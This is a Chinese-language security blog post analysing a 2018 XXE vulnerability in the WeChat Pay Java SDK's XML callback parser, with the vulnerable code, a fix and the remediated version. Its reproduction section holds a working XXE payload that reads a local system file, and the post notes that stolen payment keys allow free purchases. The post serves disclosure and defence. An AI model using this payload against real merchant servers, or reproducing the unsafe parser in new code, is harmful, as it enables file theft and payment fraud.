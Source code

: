 ```yaml
---
layout: post
title: "微信支付SDK XXE漏洞分析"
date: 2018-07-04
description: "微信支付SDK XXE漏洞分析"
tag: 应用安全
---
```


------

## 漏洞描述
微信在JAVA版本的SDK中提供callback回调功能，用来帮助商家接收异步付款结果，该接口接受XML格式的数据，攻击者可以构造恶意的回调数据（XML格式）来窃取商家服务器上的任何文件，一般支付服务器均为核心服务器，出现XXE导致任意文件。另外，一旦攻击者获得了关键支付的安全密钥（md5-key和商家信息，将可以直接实现0元支付购买任何商品）。

## 漏洞来源
[http://seclists.org/fulldisclosure/2018/Jul/3](http://seclists.org/fulldisclosure/2018/Jul/3)  
[https://xz.aliyun.com/t/2427](https://xz.aliyun.com/t/2427)

## 漏洞分析
[微信支付Java SDK 下载](https://drive.google.com/file/d/1AoxfkxD7Kokl0uqILaqTnGAXSUR1o6ud/view?usp=sharing)
### 漏洞关键代码
* WXPayUtil.java
```java
public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
            DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx < nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert to map. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }

    }
```

微信SDK的xmlToMap方法接受并处理XML数据，但是默认支持外部实体解析，所以只要可以控制strXML就能导致XXE漏洞。

### 微信SDK支付逻辑
根据README可以看到，微信SDK的支付逻辑如下：
1. 首先统一下单

```java
import com.github.wxpay.sdk.WXPay;
import java.util.HashMap;
import java.util.Map;

public class WXPayExample {

    public static void main(String[] args) throws Exception {

        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);

        Map<String, String> data = new HashMap<String, String>();
        data.put("body", "腾讯充值中心-QQ会员充值");
        data.put("out_trade_no", "2016090910595900000012");
        data.put("device_info", "");
        data.put("fee_type", "CNY");
        data.put("total_fee", "1");
        data.put("spbill_create_ip", "123.12.12.123");
        data.put("notify_url", "http://www.example.com/wxpay/notify");
        data.put("trade_type", "NATIVE");  // 此处指定为扫码支付
        data.put("product_id", "12");

        try {
            Map<String, String> resp = wxpay.unifiedOrder(data);
            System.out.println(resp);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

其中notify_url是接入方自己构建的web接口，用于异步接收微信支付结果通知的回调地址。
2. 处理微信回调

```java
import com.github.wxpay.sdk.WXPay;
import com.github.wxpay.sdk.WXPayUtil;
import java.util.Map;

public class WXPayExample {

    public static void main(String[] args) throws Exception {

        String notifyData = "...."; // 支付结果通知的xml格式数据

        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);

        Map<String, String> notifyMap = WXPayUtil.xmlToMap(notifyData);  // 转换成map

        if (wxpay.isPayResultNotifySignatureValid(notifyMap)) {
            // 签名正确
            // 进行处理。
            // 注意特殊情况：订单已经退款，但收到了支付结果成功的通知，不应把商户侧订单状态从退款改成支付成功
        }
        else {
            // 签名错误，如果数据里没有sign字段，也认为是签名错误
        }
    }

}
```

nodifyData实际是微信给接入方回调地址notify_url返回的xml数据。接入方使用xmlToMap处理nodifydata。攻击者只需要知道nodify_url，就可以构造XXE Payload进行攻击。

### 漏洞复现
简单修改SDK中示例代码的xmlStr为XXE Payload，查看可否实现XXE攻击。
* TestWXPay.java

```java
    /**
     * 小测试
     */
    public void test001() {
        String xmlStr="<?xml version=\"1.0\" encoding=\"utf-8\"?>\n" +
                "<!DOCTYPE root [\n" +
                "\t<!ENTITY xxe SYSTEM \"file:///C:\\Windows\\System32\\drivers\\etc\\hosts\">]>\n" +
                "<root>\n" +
                "\t<xxe>&xxe;</xxe>\n" +
                "</root>";
        try {
            System.out.println(xmlStr);
            System.out.println("+++++++++++++++++");
//            System.out.println(WXPayUtil.isSignatureValid(xmlStr, config.getKey())); //此处可注释测试，接入方处理微信回调时也是先调用xmlToMap再校验签名的
            Map<String, String> hm = WXPayUtil.xmlToMap(xmlStr);
            System.out.println("+++++++++++++++++");
            System.out.println(hm);
//            System.out.println(hm.get("attach").length()); //此处可注释

        } catch (Exception e) {
            e.printStackTrace();
        }

    }
```

* 执行结果  
![](/images/posts/app_sec/WXPay_result1_2018-07-04_20-53-14.png)  
已经成功读取hosts文件。证明只要接入方使用了此版本SDK并且攻击者知道回调地址，就可以成功实现XXE攻击。

## 修复建议
`禁用外部实体解析`  
目前微信支付Java SDK已经修复了代码，可以在[这里](https://drive.google.com/file/d/1cHtElmTLfDRov1poIAAD70jwa8NGh78P/view?usp=sharing)下载修复后代码。
* WXPayUtil.java  
```java
 public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
			documentBuilderFactory.setExpandEntityReferences(false); //禁用外部实体解析
			documentBuilderFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true); //开启XML安全处理
            DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx < nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert to map. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }

    }
```
* 修复后执行结果  
![](/images/posts/app_sec/WXPay_result2_2018-07-04_20-53-14.png)  